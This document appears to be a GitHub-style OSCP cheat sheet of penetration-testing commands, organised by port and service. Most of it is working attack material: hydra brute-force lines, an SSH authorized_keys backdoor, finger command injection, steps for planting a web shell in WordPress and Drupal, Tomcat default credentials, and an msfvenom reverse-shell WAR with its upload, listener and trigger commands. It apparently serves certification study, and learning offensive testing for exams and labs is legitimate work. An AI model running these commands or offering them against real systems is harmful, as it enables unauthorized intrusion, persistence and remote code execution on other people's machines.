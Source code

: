 # Welcome to Zamrax's Cheat Sheet for OSCP

## Enumeration:

1. nmapAutomator:
`nmapAutomator.sh -H IP -t All`
2. autorecon:
`autorecon IP`
3. nmap:
`nmap -T4 -A -p- IP`

## Port Enumeration:

### 21 (FTP):
1. Anonymous login is possible:
`ftp IP`
`ftp> USER anonymous`
`ftp> PASS `
2. View of FTP content:
`ftp://IP`
3. Get files from FTP:
`PASSIVE`
`BINARY`
`get FILE`
4. Upload files to FTP:
`PASSIVE`
`BINARY`
`put FILE`
5. Brute force:
`hydra -V -f -L USER_LIST -P /usr/share/wordlists/rockyou.txt ftp://IP -u -vV`
6. Vulnerability Scanning:
`nmap -p 21 --script="+*ftp* and not brute and not dos and not fuzzer" -vv -oN ftp IP`

### 22 (SSH)
1. Brute Force:
`hydra -V -f -L <USERS_LIST> -P /usr/share/wordlists/rockyou.txt ssh://IP -u -vV`
2. Possible Exploit: CVE-2008-0166:
`searchsploit -m 5720`
3. Backdoor (might be worth it):
`
-> Attacker
ssh-keygen -f FILE
chmod 600 FILE
cat FILE.pub -> copy

-> Victim
echo FILE.pub >> PATH/.ssh/authorized_keys

-> Connect
ssh -i FILE USER@IP
`
4. Banner grab:
`ssh root@IP`

### 23 (Telnet)
1. Connect:
`telnet IP 23`

### 25 (SMTP)
1. Connect:
`nc IP 25`
2. User enumeration:
`VRFY USER`

### 43 (WHOIS)
1. Connection:
`whois -h IP -p PORT "domain.tld"`

### 53 (DNS)
1. Enumeration:
`dnsenum DOMAIN`
`dnsrecon -d DOMAIN`
`
nslookup
nslookup> server IP
nslookup> DOMAIN
`
2. Zone Transfer
`dnsrecon -d DOMAAIN -a`
`dig axfr DOMAIN @website`
3. DNS Brute force:
`https://github.com/blark/aiodnsbrute`

### 69 (TFTP)
1. Enumeration
`nmap -n -Pn -sU -p69 -sV --script tftp-enum IP`

### 79 (Finger)
1. User Enumeration
`finger IP`
`finger USER@IP`
2. Command execution:
`finger "|/bin/id@<IP>"
finger "|/bin/ls -a /<IP>"`

### 80 & 443 (HTTP):
1. Enumeration:
`done by automatic scripts`
2. Directory Fuzzing:
- GoBuster:
`gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20`
`gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x php,txt,html,cgi,sh,bak,aspx`
`gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x php,txt,html,cgi,sh,bak,aspx --insecuressl`
(might have to use `-k` switch if HTTPS is not trustable)
- Dirbuster
`trivial`
(Do not forget to change file formats and supply correct directory list like above)
**Wordpress**
_Enumeration_
`/# Scan
wpscan --rua -e --url IP/URL
/# Brute force users/login
wpscan --rua --url IP/URL -P /usr/share/wordlists/rockyou.txt -U "USER,USER"`
_Theme RCE_
`
Appearance -> Editor -> 404 Template (at the right)
Change the content for a php shell
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
http://<IP>/wp-content/themes/twentytwelve/404.php
`
_Plugin RCE_
Follow this [Link](https://medium.com/swlh/wordpress-file-manager-plugin-exploit-for-unauthenticated-rce-8053db3512ac)
**Drupal**
`droopescan scan -u IP/URL`
_User Enumeration_
`In /user/register just try to create a username and if the name is already taken it will be notified :
*The name admin is already taken*
If you request a new password for an existing username :
*Unable to send e-mail. Contact the site administrator if the problem persists.*
If you request a new password for a non-existent username :
*Sorry, test is not recognized as a user name or an e-mail address.*
Accessing /user/<number> you can see the number of existing users :
	- /user/1 -> Access denied (user exist)
	- /user/2 -> Page not found (user doesn't exist)`
_Hidden Pages Enumeration_
`wfuzz -c -z range,1-500 --hc 404 URL/node/FUZZ`
_Panel RCE_
`
You need the plugin php to be installed (check it accessing to /modules/php and if it returns a 403 then, exists, if not found, then the plugin php isn't installed)
Go to Modules -> (Check) PHP Filter  -> Save configuration
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
Then click on Add content -> Select Basic Page or Article -> Write php shellcode on the body -> Select PHP code in Text format -> Select Preview
`
**Joomla**
_Enumeration_
`joomscan -u URL
./joomlavs.rb --url URL -a -v`
**Tomcat**
_Default Credentials_
`
The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But  this path is protected by basic HTTP auth, the most common credentials are :

admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
`
_Brute Force_
`hydra -L USER_LIST -P /usr/share/wordlists/rockyou.txt -f IP http-get /manager/html -vV -u`
_Panel RCE_
`
/# Generate payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war

/# Upload payload
Tomcat6 :
wget 'http://USER:PASSWORD@IP:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

Tomcat7 and above :
curl -v -u USER:PASSWORD -T shell.war 'http://IP:8080/manager/text/deploy?path=/shellh&update=true'

/# Listener
nc -nvlp PORT

/# Execute payload
curl http://IP:8080/shell/
`
